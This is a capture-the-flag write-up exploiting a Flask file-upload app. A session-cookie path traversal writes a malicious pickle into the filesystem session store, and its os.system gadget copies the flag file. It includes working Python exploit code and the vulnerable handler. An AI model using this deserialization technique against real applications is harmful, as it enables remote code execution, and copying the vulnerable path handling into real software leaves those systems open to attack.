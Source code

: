 + idea:flask session cookie pickle deserialization
```
@app.route('/', methods=['GET', 'POST'])
def index():
    path = f'static/uploads/{session.sid}' 
    if request.method == 'POST':
        f = request.files['file']
        if '..' in f.filename:
            return "bad", 400
        os.makedirs(path, exist_ok=True)
        f.save(path + '/' + f.filename)
        if not session.get('files'):
            session['files'] = []
        session['files'].append(f.filename)
        return redirect('/')
    return render_template('index.html', path=path, files=session.get('files', []))
```
+ Since the SESSION_TYPE is set to filesystem, whenever we log in to the application, a new session file is created in the /app/flask_session folder. The filename is calculated as the MD5 hash of the session cookie sid
+ The default hash_method used to generate the filename is MD5. So, if we provide a session cookie "session=ABC123" in our HTTP request, the application looks for the session file at /app/flask_session/MD5(ABC123) by default
+ We have arbitrary file write in session.sid. But we have permissions only /uploads and /flask-session
+ idea is to write a script so that the flag.txt is copied to /uploads so that we could see files in the uploads directory.
+ I set my cookie to xxx and uploaded a file on my local instance. This revealed that xxx mapped to 254b2716336df2553ce5c04a934d56e4 so we can use this as the name for our serialized Pickle object. We will upload the output of the following script to /app/flask_session/254b2716336df2553ce5c04a934d56e4 here:

exploit:
```
import pickle
import os

class RCE:
    def __reduce__(self):
        cmd = ('cp /flag.txt /app/static/uploads/abcd.txt')
        return os.system, (cmd,)

def generate_exploit():
    payload = pickle.dumps(RCE(), 0)
    return b"\x00"*4 + payload


with open("254b2716336df2553ce5c04a934d56e4", "wb") as f:
    f.write(generate_exploit())

```
+ Next, I set my session cookie to ../../flask_session and uploaded the file. This overwrote the session.
Then I set my session to xxx and refreshed the page. Lastly, I visited /static/uploads/abcd.txt path and got the flag!